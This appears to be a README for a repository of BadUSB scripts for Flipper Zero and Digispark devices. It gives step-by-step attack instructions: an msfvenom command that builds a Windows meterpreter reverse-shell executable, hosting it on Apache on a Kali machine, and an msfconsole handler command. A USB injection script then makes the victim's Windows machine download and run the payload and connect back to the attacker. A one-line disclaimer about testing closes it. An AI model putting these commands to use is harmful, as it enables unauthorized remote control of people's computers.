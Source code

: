 # BadUSB
BadUSB scripts and files for Flipper Zero and Digispark

How to use the Reverse Shell Downloader:

1. You will need Kali Linux installed on the attacker's machine and Windows on the victim's machine
2. Run the following command on Kali (add IP address and Port first) - msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP_ADDRESS LPORT=PORT_TO_USE -f exe > rs_exploitl.exe - this will create an exe file
3. Move the exe file to /var/www/html on Kali - this will make it available for hosting through Apache
4. Run the following command on Kali - service apache2 start - this will start apache and host the created file
5. Check the status of apache by running the following command - service apache2 status - it should show as active
6. Start the shell handler on Kali with the following command (add IP address and Port first) - msfconsole -x 'use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST SAME_IP_AS_ABOVE; set LPORT SAME_PORT_AS_ABOVE ;exploit' - it should show as 'started'
7. Now just run the Reverse Shell injection script on the Windows machine - it will download the exe file and run it, and Kali will connect. You now have shell access!

Note that this script is just for testing purposes - don't break into people's computers.

